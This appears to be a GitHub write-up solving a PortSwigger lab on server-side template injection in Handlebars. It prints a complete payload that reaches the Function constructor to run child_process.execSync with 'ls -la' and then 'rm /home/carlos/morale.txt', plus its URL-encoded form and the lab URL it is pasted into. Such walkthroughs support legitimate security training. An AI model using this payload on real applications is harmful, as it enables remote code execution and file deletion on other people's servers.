



# Server-side template injection in an unknown language with a documented exploit

## This lab is vulnerable to [server-side template injection](https://portswigger.net/web-security/server-side-template-injection). To solve the lab, identify the template engine and find a documented exploit online that you can use to execute arbitrary code, then delete the `morale.txt` file from Carlos's home directory.

### HINT:

```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('ls -la');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

### step1





```javascript
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').execSync('rm /home/carlos/morale.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

convert the above code into url encoded

```
%7b%7b%23%77%69%74%68%20%22%73%22%20%61%73%20%7c%73%74%72%69%6e%67%7c%7d%7d%0a%20%20%7b%7b%23%77%69%74%68%20%22%65%22%7d%7d%0a%20%20%20%20%7b%7b%23%77%69%74%68%20%73%70%6c%69%74%20%61%73%20%7c%63%6f%6e%73%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%28%6c%6f%6f%6b%75%70%20%73%74%72%69%6e%67%2e%73%75%62%20%22%63%6f%6e%73%74%72%75%63%74%6f%72%22%29%7d%7d%0a%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%73%74%72%69%6e%67%2e%73%70%6c%69%74%20%61%73%20%7c%63%6f%64%65%6c%69%73%74%7c%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%75%73%68%20%22%72%65%74%75%72%6e%20%72%65%71%75%69%72%65%28%27%63%68%69%6c%64%5f%70%72%6f%63%65%73%73%27%29%2e%65%78%65%63%53%79%6e%63%28%27%72%6d%20%2f%68%6f%6d%65%2f%63%61%72%6c%6f%73%2f%6d%6f%72%61%6c%65%2e%74%78%74%27%29%3b%22%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%2e%70%6f%70%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%23%65%61%63%68%20%63%6f%6e%73%6c%69%73%74%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%23%77%69%74%68%20%28%73%74%72%69%6e%67%2e%73%75%62%2e%61%70%70%6c%79%20%30%20%63%6f%64%65%6c%69%73%74%29%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%20%20%7b%7b%74%68%69%73%7d%7d%0a%20%20%20%20%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%20%20%20%20%7b%7b%2f%65%61%63%68%7d%7d%0a%20%20%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%20%20%7b%7b%2f%77%69%74%68%7d%7d%0a%7b%7b%2f%77%69%74%68%7d%7d
```

paste after message `https://0ac000870479989181b4db8800690080.web-security-academy.net/?message=`


